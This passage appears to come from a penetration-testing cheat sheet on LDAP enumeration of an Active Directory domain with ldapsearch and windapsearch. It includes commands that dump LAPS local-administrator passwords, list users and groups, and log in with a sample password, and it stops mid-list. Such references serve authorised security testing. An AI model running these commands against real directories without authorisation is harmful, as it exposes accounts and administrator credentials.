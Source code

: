 ```
$ ldapsearch -h 192.168.1.11 -x -s <SCOPE> -b <BASE_DN> <QUERY> [<ATTRIBUTE> <ATTRIBUTE> ...]
```

Get base naming contexts:

```
$ ldapsearch -h 192.168.1.11 -x -s base namingcontexts
```

Extract data for the whole domain catalog and then grep your way through:

```
$ ldapsearch -h 192.168.1.11 -x -s sub -b "DC=megacorp,DC=local" | tee ldapsearch.out
$ cat ldapsearch.out | grep -i memberof
```

Or filter out only what you need:

```
$ ldapsearch -h 192.168.1.11 -x -b "DC=megacorp,DC=local" '(&(objectCategory=person)(objectClass=user))' sAMAccountName sAMAccountType
```

Get `Remote Management Users` group:

```
$ ldapsearch -h 192.168.1.11 -x -b "DC=megacorp,DC=local" '(memberOf=CN=Remote Management Users,OU=Groups,OU=UK,DC=megacorp,DC=local)' | grep -i memberof
```

Dump LAPS passwords:

```
$ ldapsearch -h 192.168.1.11 -x -b "dc=megacorp,dc=local" '(ms-MCS-AdmPwd=*)' ms-MCS-AdmPwd
```

Simple authentication with ldapsearch:

```
$ ldapsearch -H ldap://192.168.1.11:389 -x -D 'CN=snovvcrash,CN=Users,DC=megacorp,DC=local' -w 'Passw0rd!' -s sub -b 'DC=megacorp,DC=local' | tee ldapsearch.out
```

Analyze large output for anomalies by searching for unique strings:

```
$ cat ldapsearch.out | awk '{print $1}' | sort | uniq -c | sort -nr
```



### windapsearch

* [https://github.com/ropnop/windapsearch](https://github.com/ropnop/windapsearch)

Enumerate domain function functional level with LDAP anonymous bind:

```
$ python3 windapsearch.py --dc-ip 192.168.1.11 -d megacorp.local -u '' --functionality
```

Enumerate users in Protected Users group which are also trusted for unconstrained delegation:
